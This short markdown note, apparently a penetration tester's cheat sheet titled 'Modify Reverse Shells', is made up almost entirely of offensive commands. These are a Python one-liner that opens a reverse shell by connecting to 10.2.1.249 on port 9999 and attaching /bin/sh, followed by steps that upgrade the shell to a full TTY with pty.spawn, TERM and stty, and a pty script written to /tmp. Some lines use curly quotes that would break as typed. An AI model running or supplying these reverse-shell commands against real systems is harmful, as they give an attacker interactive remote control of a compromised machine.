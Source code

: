 # Modify Reverse Shells
---
`python3 -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.1.249",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'`

`python3 -c ‘import pty;pty.spawn(“/bin/bash”)’`
`export TERM=xterm`
`ctrl-z, stty raw -echo; fg`

`echo "import pty; pty.spawn('/bin/bash')" > /tmp/anyname.py`
`python(3) /tmp/filename.py`
